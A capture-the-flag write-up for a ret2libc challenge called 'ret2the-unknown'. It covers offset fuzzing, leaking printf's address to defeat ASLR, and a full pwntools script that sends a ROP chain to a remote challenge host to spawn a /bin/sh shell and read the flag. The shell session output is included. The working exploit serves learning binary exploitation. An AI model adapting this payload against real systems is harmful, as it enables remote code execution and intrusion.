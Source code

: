 # ret2the-unknown

<p align="center">
    <kbd><img src="images/ret2theunknown-1.png" caption="Challenge" /></kbd><br/>
</p>

The challenge description has hinted that it is a ret2libc challenge

At line 17 of the source code, it is clear that the program is vulnerable to buffer overflow

<p align="center">
    <kbd><img src="images/ret2theunknown-2.png" caption="Challenge" /></kbd><br/>
</p>

To start, fuzz the input <br />
```
$ pattern_create 100 
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
``` 

Run the program and provides the above payload. It segfaults at ret instruction <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-3.png" caption="Challenge" /></kbd><br/>
</p>

Looking at the registers, I can identify the return address <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-4.png" caption="Challenge" /></kbd><br/>
</p>

```
$ pattern_offset AA0AAFA
AA0AAFA found at offset: 40
```

So, I need to spray 40 random characters in order to control RIP.

From the source code, I know that the address of printf function is leaked.

From the program, I know that ASLR is enabled.
<p align="center">
    <kbd><img src="images/ret2theunknown-5.png" caption="Challenge" /></kbd><br/>
</p>

Idea to pwn this challenge: Overwrite the value of RIP to address of main function so that it reruns the program. Then, obtain the address of printf function from the output and used it to find the base libc address. Once I have updated the base libc address, I can get the address of `system` as well as the strings `/bin/sh`. I also obtain ROP gadget `pop rdi; ret` from the binary (pass `/bin/sh` as an argument to `system`).

Using [ropper](https://github.com/sashs/Ropper), I know that there exists “pop rdi; ret” gadget in the binary. <br />
`$ python3 Ropper.py -f ../ret2the-unknown --search "% ?di"` <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-6.png" caption="Challenge" /></kbd><br/>
</p>

Following the idea mentioned above, I created the script to perform my exploit.

```
from pwn import *

# Loading ELF files
binary = ELF('./ret2the-unknown')
linker = ELF('./ld-2.28.so')
libc = ELF('./libc-2.28.so')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

p = remote('mc.ax', 31568)
#p = process(binary.path)
res = p.recvuntil('there safely?\n')
print(res.decode('latin-1'))
payload = b'A' * 40
payload += p64(binary.symbols['main'])
p.sendline(payload)
printf_addr = p.recvuntil('good luck!\n').split(b'there:')[1].strip().split(b'\n')[0].strip().decode()
print("printf_addr: " + printf_addr)
print("printf_offset: " + hex(libc.symbols['printf']))
res = p.recvuntil('there safely?\n')
print(res)

# finding the base adddress
libc_base_addr = int("0x" + printf_addr, 16) - libc.symbols['printf']
print(hex(libc_base_addr))
libc.address = libc_base_addr   # update libc address

payload = b'A' * 40
payload += p64(pop_rdi + 1) # trick to handle stack misalignment (as pop rdi - 2 bytes, ret - 1 byte) (pop_rdi + 1 is ret instruction)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])
p.sendline(payload)

p.interactive()
```

```
$ python3 exploit-ret2libc.py
[snip]
that board meeting was a *smashing* success! rob loved the challenge!
in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...
where is this place? can you help me get there safely?

printf_addr: 7fb461c48560
printf_offset: 0x58560
b"that board meeting was a *smashing* success! rob loved the challenge!\nin fact, he loved it so much he sponsored me a business trip to this place called 'libc'...\nwhere is this place? can you help me get there safely?\n"
0x7fb461bf0000
[*] Switching to interactive mode
phew, good to know. shoot! i forgot!
rob said i'd need this to get there: 7fb461c48560
good luck!
$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
[*] Got EOF while reading in interactive
```

Flag: `flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}`

# Resources
https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html <br />
https://github.com/Gallopsled/pwntools-tutorial
